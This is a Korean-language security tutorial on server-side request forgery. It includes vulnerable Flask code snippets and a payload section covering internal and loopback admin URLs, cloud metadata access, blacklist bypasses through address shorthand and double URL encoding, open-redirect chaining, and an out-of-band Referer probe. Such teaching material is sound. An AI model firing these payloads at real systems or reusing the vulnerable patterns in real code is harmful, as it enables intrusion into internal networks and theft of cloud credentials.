

> SSRF는 서버가 보내는 요청을 공격자가 변조하는 취약점이다. 브라우저 권한으로 요청을 보내는 CSRF와 달리, 요청이 **서버 권한**으로 나가기 때문에 외부에서 닿지 못하는 내부망·내부 API에 간접적으로 접근할 수 있다.

## 개념

웹 서비스가 다른 주소로 HTTP 요청을 보낼 때, 그 요청의 목적지에 사용자 입력이 들어가면 공격자가 목적지를 바꿀 수 있다. 서버가 대신 요청을 보내므로 공격자는 서버만 접근 가능한 자원에 닿는다.

요즘 서비스는 기능을 여러 **마이크로서비스**로 나누고 내부망에서 HTTP·gRPC로 통신한다. 관리자 기능(백오피스), 클라우드 메타데이터(`169.254.169.254`), 내부 전용 API는 외부에서 직접 닿을 수 없지만, 취약한 서버를 경유하면 닿을 수 있다. 내부망에서 들어온 요청은 접근 제어가 느슨한 경우가 많아, 로컬에서 온 요청에 관리자 기능을 그대로 허용하기도 한다.



SSRF가 발생하는 코드는 요청 목적지에 입력이 들어가는 형태다.

사용자가 URL 자체를 입력하는 경우:

```python
@app.route("/image_downloader")
def image_downloader():
    image_url = request.args.get("image_url", "")
    response = requests.get(image_url)   # 입력 URL로 그대로 요청
    return response.content
```

목적지 호스트는 고정이고 경로 일부를 사용자가 채우는 경우(`user_idx`에 `../`를 넣으면 다른 내부 엔드포인트로 간다):

```python
INTERNAL_API = "http://api.internal"

@app.route("/v1/api/user/information")
def user_info():
    user_idx = request.args.get("user_idx", "")
    response = requests.get(f"{INTERNAL_API}/user/{user_idx}")
```

원인은 **사용자 입력을 그대로 요청 목적지에 붙이는 것**이다. 이미지·썸네일 가져오기, 웹훅, PDF 생성, 링크 미리보기처럼 "외부 자원을 서버가 가져오는" 기능과, URL·도메인·IP를 받는 파라미터(`url=`, `target=`, `stockApi=` 등)가 주요 발생 지점이다.

## 공격·우회 구문

대상 도메인은 `example.com`, 내부 주소는 예시 값으로 일반화했다. 점검은 허가된 범위에서만 한다.

### 로컬·내부 서버 호출

요청 목적지를 서버 자신(loopback)이나 내부 IP로 바꾼다. 내부에서 온 요청으로 처리되어 접근 제어가 우회되는 경우가 있다.

```
stockApi=http://localhost/admin
stockApi=http://127.0.0.1/admin
stockApi=http://192.168.0.x/admin     # x는 인트루더로 탐색
```

### 클라우드 메타데이터

```
http://169.254.169.254/latest/meta-data/
```

PDF 생성처럼 서버가 콘텐츠를 렌더링하는 기능에서는 삽입형으로도 시도한다.

```html
<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>
```

### 블랙리스트 필터 우회

`127.0.0.1`, `localhost`가 차단될 때 같은 주소를 다른 표기로 쓴다.

```
http://127.1/            # 단축 표기 (= 127.0.0.1)
```

경로의 특정 단어(`admin`)가 차단되면 **이중 URL 인코딩**으로 우회한다. `%25` → `%`, 그래서 `%2561dmin`은 서버에서 `%61dmin` → `admin`으로 풀린다.

```
http://127.1/%2561dmin
http://127.1/%2561dmin/delete?username=<user>
```

### 오픈 리다이렉트를 통한 우회

목적지 검증이 허용 경로만 받을 때, 그 허용 경로 안에 오픈 리다이렉트가 있으면 내부 주소로 튕겨 보낼 수 있다.

```
# 허용된 경로를 거쳐 리다이렉트로 내부 관리 주소에 도달
stockApi=/product/nextProduct?path=http://192.168.0.x/admin
```

### 블라인드 SSRF (대역 외 확인)

응답 본문이 돌아오지 않으면 내가 통제하는 외부 주소(OAST)로 요청이 도착하는지로 확인한다. URL 파라미터뿐 아니라 `Referer` 같은 헤더에 외부 주소를 넣어 서버가 그 주소를 호출하는지 본다.

```
Referer: https://<collaborator-id>.oast.example
```

## 참고 자료

- [OWASP: Server Side Request Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
